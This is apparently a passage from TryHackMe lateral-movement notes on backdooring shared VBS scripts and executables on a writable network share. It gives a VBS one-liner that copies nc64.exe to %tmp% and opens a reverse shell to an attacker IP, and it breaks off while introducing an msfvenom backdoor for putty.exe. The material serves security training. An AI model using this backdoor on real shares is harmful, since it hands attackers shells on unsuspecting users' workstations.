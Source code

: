 <img src="/assets/images/THM/Lateral%20Movement%20and%20Pivoting/10.png" width="50%">

The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

#### Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This will copy nc64.exe from the share to the user's workstation %tmp% directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

#### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:
